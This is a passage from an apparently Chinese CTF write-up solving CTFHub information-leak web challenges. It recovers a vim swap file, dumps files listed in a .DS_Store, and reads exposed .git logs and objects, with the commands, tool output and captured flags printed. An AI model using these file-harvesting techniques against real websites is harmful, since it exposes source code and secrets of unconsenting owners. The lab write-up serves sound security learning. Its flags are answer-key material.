 flag: `ctfhub{7eca46b4361c84fb3cc5279c}`

### 信息泄露 - vim 缓存

```
$ wget "http://challenge-917fe927c2514035.sandbox.ctfhub.com:10800/.index.php.swp"

$ vim -r .index.php.swp
```

flag: `ctfhub{25bbafd258dfb2d994e43f46}`

### 信息泄露 - .DS_Store

找个工具一把梭：

```bash
$ pipenv run dumpall -u "http://challenge-ee2c7af2b2b35097.sandbox.ctfhub.com:10800/.DS_Store"

       ___                  ___   __   __ 
      / _ \__ ____ _  ___  / _ | / /  / / 
     / // / // /  ' \/ _ \/ __ |/ /__/ /__
    /____/\_,_/_/_/_/ .__/_/ |_/____/____/
                   /_/                    

    https://github.com/0xHJK/dumpall
    --------------------------------------------- 
                                       v0.3.2 HJK

Target: http://challenge-ee2c7af2b2b35097.sandbox.ctfhub.com:10800/.DS_Store
Output Directory: /home/kazusa/playground/challenge-ee2c7af2b2b35097.sandbox.ctfhub.com_10800

Module: dumpall.addons.dsdumper

[200] http://challenge-ee2c7af2b2b35097.sandbox.ctfhub.com:10800/aa050c423974ee3125db054c5d76bb6b.txt aa050c423974ee3125db054c5d76bb6b.txt
```

flag: `ctfhub{366885c612a6ddd17ba317cb}`

### 信息泄露 - Log

```bash
$ curl "http://challenge-33d2dab378983665.sandbox.ctfhub.com:10800/.git/logs/HEAD"
0000000000000000000000000000000000000000 3978780ede2ef9b711101198f88feaa05d074f3d CTFHub <sandbox@ctfhub.com> 1734602862 +0000	commit (initial): init
3978780ede2ef9b711101198f88feaa05d074f3d 05482e6b3a7fd31b7070135e6f0a9779b00ad490 CTFHub <sandbox@ctfhub.com> 1734602862 +0000	commit: add flag
05482e6b3a7fd31b7070135e6f0a9779b00ad490 a27987a9c3598c7ac256bd86e105193d14bbe608 CTFHub <sandbox@ctfhub.com> 1734602862 +0000	commit: remove flag
```

可以得知在 commit `05482e6b3a7fd31b7070135e6f0a9779b00ad490` 添加了 flag 文件

```bash
$ wget "http://challenge-33d2dab378983665.sandbox.ctfhub.com:10800/.git/objects/05/482e6b3a7fd31b7070135e6f0a9779b00ad490"

$ zlib-flate -uncompress < 482e6b3a7fd31b7070135e6f0a9779b00ad490 > output

$ cat output
commit 211tree 4f76c2d615138379c60b01fe1f431a6faaa221f3
parent 3978780ede2ef9b711101198f88feaa05d074f3d
author CTFHub <sandbox@ctfhub.com> 1734602862 +0000
committer CTFHub <sandbox@ctfhub.com> 1734602862 +0000

add flag
```